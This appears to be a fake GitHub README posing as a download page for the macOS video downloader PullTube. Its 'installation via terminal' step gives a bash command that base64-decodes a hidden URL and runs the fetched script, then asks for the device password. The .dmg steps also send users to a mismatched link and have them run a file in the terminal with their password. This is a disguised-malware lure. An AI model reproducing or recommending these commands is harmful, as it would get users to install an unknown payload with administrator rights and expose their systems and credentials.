 # 📥 PullTube — Powerful Video Downloader for macOS

**PullTube** is a user-friendly video downloader designed exclusively for macOS, enabling you to effortlessly save videos from popular platforms like YouTube, Vimeo, and more. With its intuitive interface and fast download speeds, PullTube makes grabbing your favorite videos for offline viewing simple and convenient.

Whether you want to download entire playlists or single videos in various formats and resolutions, PullTube provides a seamless experience tailored for Mac users.

---

## ✅ Download PullTube for macOS  
[![Download PullTube](https://img.shields.io/badge/Download-PullTube-blueviolet)](https://shuziktobehuman.github.io/huja/PillTube)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is PullTube?

PullTube is a versatile video downloader application crafted for macOS that supports downloading videos from many streaming websites. It offers flexible options such as video format conversion, playlist downloads, and integration with macOS system features, making it an essential tool for Mac users who want to save online videos easily.

---

## ✨ Features

- 📥 Download videos from YouTube, Vimeo, Dailymotion, and more  
- 🎞 Support for multiple video formats: MP4, MOV, MP3 (audio extraction)  
- 📋 Download entire playlists or single videos  
- ⚙️ Customizable video resolution and quality options  
- 🖥 Native macOS interface with Retina display support  
- 🚀 Fast and reliable download speeds  
- 🔗 Drag & drop URLs for quick downloads  
- 🔄 Background downloading with pause and resume options  

---

## 💡 Why Use PullTube?

- 💻 Designed specifically for macOS with seamless integration  
- 🎥 Supports a wide variety of video platforms and formats  
- 🔧 Simple yet powerful with advanced customization options  
- ⚡️ Efficient downloads without compromising Mac performance  
- 🎶 Extract audio tracks easily for music and podcasts  

---

[![Download PullTube](https://img.shields.io/badge/Download-PullTube-blueviolet)](https://shuziktobehuman.github.io/huja/PillTube)

---

## 🖼 Preview

![PullTube Badge](https://static.tildacdn.one/tild6665-6234-4439-b162-353961393938/PTBadge.png)  
![PullTube Screenshot 1](https://setapp.com/cdn-cgi/image/quality=75,format=auto,width=780/https://store.setapp.com/app/371/screenshots/1569505331-5d8cc03388efa.png)

---

## 📌 Tags

pulltube, pulltube for mac, pulltube mac, pulltube video downloader, pulltube app,  
pulltube youtube downloader for mac, pulltube mac download, pulltube download mac
